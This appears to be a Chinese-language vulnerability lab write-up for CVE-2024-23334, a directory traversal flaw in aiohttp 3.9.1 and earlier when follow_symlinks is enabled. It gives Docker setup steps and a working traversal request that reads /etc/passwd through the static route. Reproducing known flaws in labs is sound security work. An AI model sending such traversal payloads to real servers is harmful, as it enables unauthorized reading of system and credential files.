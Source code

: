 # aiohttp 目录遍历漏洞 （CVE-2024-23334）

aiohttp 是一个基于 asyncio 和 Python 的异步 HTTP 客户端/服务器框架。

在将 aiohttp 用作 Web 服务器并配置静态路由时，必须指定静态文件的根路径。此外，可以使用 `follow_symlinks` 选项来决定是否跟随指向静态根目录之外的符号链接。当 `follow_symlinks` 设置为 `True` 时，aiohttp 不会验证所读取的文件是否位于静态根目录之内。这可能导致目录遍历漏洞，从而使攻击者可以未经授权访问系统上的任意文件，即使系统中没有实际存在符号链接。该漏洞影响的版本包括 3.9.1 及以下。

参考链接：

- [NVD - CVE-2024-23334](https://nvd.nist.gov/vuln/detail/CVE-2024-23334)

- [aiohttp 目录穿越漏洞（CVE-2024-23334 分析）](https://www.venustech.com.cn/new_type/aqldfx/20240401/27962.html)

## 环境搭建

执行如下命令启动存在漏洞的 aiothttp 3.9.1 服务器：

```
docker compose up -d
```

服务启动后，通过 `http://your-ip:8080/` 即可访问网页。

## 漏洞复现

利用此漏洞，可以构造恶意路径，从而访问服务器中任意文件。

例如，构造如下请求来查看系统文件`/etc/passwd`:

```
GET /static/../../../../../etc/passwd HTTP/1.1
Host: your-ip:8080
Content-Length: 2
```

![构造查看/etc/passwd的请求](1.png)

如果操作成功，即可以看到`/etc/passwd`的内容，证明漏洞存在。
